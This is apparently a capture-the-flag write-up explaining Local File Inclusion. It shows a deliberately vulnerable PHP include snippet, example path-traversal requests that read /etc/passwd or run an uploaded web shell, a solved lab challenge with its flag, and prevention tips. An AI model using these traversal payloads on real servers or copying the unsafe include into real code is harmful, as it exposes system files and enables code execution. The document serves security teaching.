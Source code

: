 # Local file inclusion

## Explanations

### What is the LFI (Local File Inclusion) vulnerablity ?

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.

The following is an example of PHP code that is vulnerable to LFI.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

http://example.com/?file=../../uploads/evil.php

In this example, the file uploaded by the attacker will be included and executed by the user that runs the web application. That would allow an attacker to run any server-side malicious code that they want.

This is a worst-case scenario. An attacker does not always have the ability to upload a malicious file to the application. Even if they did, there is no guarantee that the application will save the file on the same server where the LFI vulnerability exists. Even then, the attacker would still need to know the disk path to the uploaded file.
Directory Traversal

Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.

http://example.com/?file=../../../../etc/passwd

In the above example, an attacker can get the contents of the /etc/passwd file that contains a list of users on the server. Similarly, an attacker may leverage the Directory Traversal vulnerability to access log files (for example, Apache access.log or error.log), source code, and other sensitive information. This information may then be used to advance an attack.

### Let's get the Flag !

First, let's find a page that uses query parameters: for example: [sign in](http://192.168.1.38/index.php?page=signin)

And replace query parameters with `../../../../etc/passwd`:

```
http://192.168.1.38/index.php?page=../../../../etc/passwd
```

An alert is displayed with this message:

```
> Almost.
```

Let's try to increase the path:

```
http://192.168.1.38/index.php?page=../../../../../../../etc/passwd
```

Yeahhh

```
> Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

---

## How to avoid that security breach ?

Here are a few ways to prevent LFI attacks:

- ID assignation – save your file paths in a secure database and give an ID for every single one, this way users only get to see their ID without viewing or altering the path
- Whitelisting – use verified and secured whitelist files and ignore everything else
- Use databases – don’t include files on a web server that can be compromised, use a database instead
- Better server instructions – make the server send download headers automatically instead of executing files in a specified directory

---

#### Sources

[What is Local File Inclusion (LFI)?](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)
[Local file inclusion (prevention)](https://www.neuralegion.com/blog/local-file-inclusion-lfi/)
